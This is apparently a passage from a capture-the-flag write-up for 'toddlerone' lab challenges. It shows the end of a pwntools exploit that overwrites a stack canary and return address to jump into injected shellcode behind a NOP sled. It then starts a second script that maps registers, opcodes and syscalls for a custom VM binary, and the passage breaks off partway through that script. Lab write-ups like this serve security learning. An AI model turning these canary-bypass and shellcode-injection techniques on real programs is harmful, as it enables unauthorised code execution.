 ```python
    buf_2 = b'\x41' * 0x15 + b'\xff' + b'\x42' * 2 + struct.pack('<Q', canary) * 2 + struct.pack('<Q', shellcode_addr)
    payload = buf_2 + b'\x90' * (write_count - len(buf_2) - len(shellcode)) + shellcode 
    p.send(payload)

    p.interactive()

exploit()
```

And the mirror stage:

```python
from dataclasses import dataclass
from pwn import *
import os, sys
import struct


BINARY = '/challenge/toddlerone_level8.1'
GDB_SCRIPT= '''
b *interpret_sys+0x1e4
b *main+0x2ee

c

'''
DEBUG_FILE_PATH = 'my_payload.txt'

@dataclass
class Regs:
    a = b'\x08'
    b = b'\x04'
    c = b'\x02'
    d = b'\x40'
    s = b'\x01'
    i = b'\x20'
    f = b'\x10'

@dataclass
class Opcodes:
    STM = b''
    IMM = b'\x80'
    ADD = b''
    CMP = b''
    JMP = b''
    LDM = b''
    STK = b''
    SYSCALL = b'\x08'

@dataclass
class Syscalls:
    OPEN = b'\x02'
    READ_CODE = b''
    READ_MEM = b'\x10'
    WRITE_MEM = b'\x08'
    SLEEP = b''
    EXIT = b''

def syscall(number, out_reg):
    return out_reg + number + Opcodes.SYSCALL

def write_register(register, value):
    assert(value < 0x100)
```
